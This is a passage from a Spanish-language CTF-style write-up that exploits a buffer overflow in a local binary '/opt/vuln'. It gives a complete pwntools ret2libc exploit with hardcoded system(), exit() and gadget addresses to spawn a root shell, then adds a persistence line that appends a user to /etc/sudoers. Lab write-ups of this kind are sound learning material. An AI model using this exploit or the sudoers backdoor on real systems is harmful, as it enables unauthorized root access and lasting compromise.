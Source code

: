 Ahora nos queda localizar las direcciones de las funcioness `system()` & `exit()` para lo cual volvemos a correr el binario con el depurador, creamos un punto de interrupcion
o `breakpoint` en la funcion `main`, corremos el binario `run` y consultamos las direcciones que requerimos

![image](https://github.com/user-attachments/assets/477ca0c8-0231-4d40-9a61-704733d9672a)

`address_system = 0x7ffff7e29490` &  `address_exit = 0x7ffff7e1b680`

Ya con todo lo necesario constuimos el payload para explotar dicho binario y obtener una shell como `root`


`exploit`
```python
from pwn import *

def explotation():

       OFFSET = 136
       BUFF = b"A"*OFFSET
       POPRDI = p64(0x000000000040116a)
       RET = p64(0x0000000000401016)                     
       SYSTEM = p64(0x7ffff7e29490)
       EXIT =   p64(0x7ffff7e1b680)
       SHELL =  p64(0x7ffff7f73031)
       PAYLOAD = BUFF + POPRDI + SHELL + RET + SYSTEM + EXIT
       binary = "/opt/vuln"
       l = process(binary)
       l.recvuntil(b"Escribe tu nombre:")
       l.sendline(PAYLOAD)
       l.interactive()
       l.close()

if __name__ == '__main__':
    explotation()
```

le damos permisos de ejecucion y corremos el exploit

![image](https://github.com/user-attachments/assets/22ef54ea-78dd-4363-bb1e-4819eeea674c)

vemos que se obtiene la shell como root pero para una escalada completa a `root` ejecutare lo siguiente

```bash
echo 'maci    ALL=(ALL:ALL) ALL' >> /etc/sudoers
```
escalamos a `root` con las credenciales de `maci`

![image](https://github.com/user-attachments/assets/618d6946-ec8c-4c9a-8004-01e0fdd02b9b)

## PWNED-ROOT











